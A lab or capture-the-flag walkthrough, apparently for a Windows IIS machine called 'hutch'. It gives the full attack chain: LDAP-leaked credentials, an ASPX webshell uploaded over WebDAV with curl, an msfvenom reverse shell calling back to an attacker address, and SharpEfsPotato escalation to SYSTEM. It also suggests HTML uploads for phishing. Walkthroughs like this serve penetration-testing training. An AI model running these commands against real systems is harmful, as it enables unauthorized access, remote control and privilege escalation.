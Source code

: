 
![image](https://github.com/user-attachments/assets/407a3e7a-1299-4fee-ac5c-4a8c86ddd8a4)
![image](https://github.com/user-attachments/assets/37d26822-0461-4447-bb7e-ca8fc86e5742)
![image](https://github.com/user-attachments/assets/1e839a06-d36f-4769-9b1b-dfc5c95442e0)
![image](https://github.com/user-attachments/assets/1c1ba04f-8104-42f2-a252-2a439d978b34)
![image](https://github.com/user-attachments/assets/e055bed3-ee16-445d-b319-c81650cb8d4b)
![image](https://github.com/user-attachments/assets/7db98041-56eb-4f4c-b877-0a3e9113f81c)
![image](https://github.com/user-attachments/assets/93f8f3cf-d368-479a-95ec-d68106d46874)
![image](https://github.com/user-attachments/assets/c7444fa8-409d-42c6-93c9-832f2bcdac98)
![image](https://github.com/user-attachments/assets/66657954-5d78-4e41-8901-29b4d46edf63)

![image](https://github.com/user-attachments/assets/c70d93fd-1175-4eae-ac30-bec85cd0fb39)

![image](https://github.com/user-attachments/assets/4c96461e-8400-4050-b0a4-1b6de06e3e8e)
![image](https://github.com/user-attachments/assets/3ce002f9-2a37-4012-8f96-a1819f8c76ed)
![image](https://github.com/user-attachments/assets/109a29e8-d71b-4cc2-876e-84373262520d)

![image](https://github.com/user-attachments/assets/0f25c6b0-9921-4b52-a3b9-882c8c694b4d)

![image](https://github.com/user-attachments/assets/8479056d-234e-497c-8e4a-c282336aaef9)
![image](https://github.com/user-attachments/assets/62b56a2c-8fff-454f-b221-3f9070a740cd)

![image](https://github.com/user-attachments/assets/c38c6fb6-590d-411b-ba71-1c8b5521406f)


1. Microsoft IIS 10.0 server on port 80 with WebDAV enabled

2. ldap leak senstive info --> username: fmcsorley   password:CrabSharkJellyfish192

3. ```
   WebDAV = Web Distributed Authoring and Versioning
   It’s an extension of HTTP that lets users upload, delete, move, and edit files on a web server.
   Think of it like turning a web server into a remote file system.

   If WebDAV is enabled and allows PUT, MOVE, DELETE, etc., attacker might be able to:
    * Upload malicious files, e.g., ASPX webshells
    * Gain remote command execution if those files are interpreted by the server (like ASPX on IIS)
    * Bypass traditional upload restrictions (e.g., through WebDAV but not through the frontend app)

   | Tool    | Purpose                              | When to Use                                |
   | --------| ------------------------------------ | ------------------------------------------ |
   | davtest | Test upload & execution capabilities | For automated checks for WebDAV weaknesses |
   | cadaver | Manual WebDAV interaction            | When you want control over upload/browse   |

   |Extension| Platform           | Purpose                            | Use If...                                   |
   |---------| ------------------ | ---------------------------------- | ------------------------------------------- |
   | .aspx   | IIS (ASP.NET)      | Remote code execution              | IIS 7+ / 10 — default choice                |
   | .asp    | IIS (Classic ASP)  | Remote code execution              | If `.aspx` fails and classic ASP is enabled |
   | .php    | Apache/nginx/Linux | Remote code execution              | Only if IIS is set up to run PHP            |
   | .html   | Any web server     | Static content (no execution)      | Use for hosting basic phishing or redirect  |
   | .txt    | Any                | Probing uploads (e.g., test write) | Test whether file upload works              |
   ```
4. ```
   cp /usr/share/webshells/aspx/cmdasp.aspx .
   curl -u "hutch\\fmcsorley:CrabSharkJellyfish192" -T cmdasp.aspx http://192.168.207.122/cmdasp.aspx
   ```
5. browser to visit http://192.168.207.122/cmdasp.aspx?cmd=whoami --> get command box

6. uploaded files are under C:\inetpub\wwwroot\

7. generate reverse shell and upload to machine
   ````
   msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.212 LPORT=5985 -f exe -o shell.exe
   cadaver http://192.168.207.122/
   Username: fmcsorley
   Password:CrabSharkJellyfish192
   put shell.exe
   ````
8. execute from browser command box C:\inetpub\wwwroot\shell.exe --> get reverse shell back to Kali --> get local.txt flag under C:\Users\fmcsorley\Desktop

9. whoami /priv --> SeImpersonatePrivilege Enabled

10. upload SharpEfsPotao.exe and the generated privilege escalation shell to global writable directory C:\Users\Public

11. PE to SYSTEM
    ```
    .\SharpEfsPotato.exe -p pe.exe
    ```
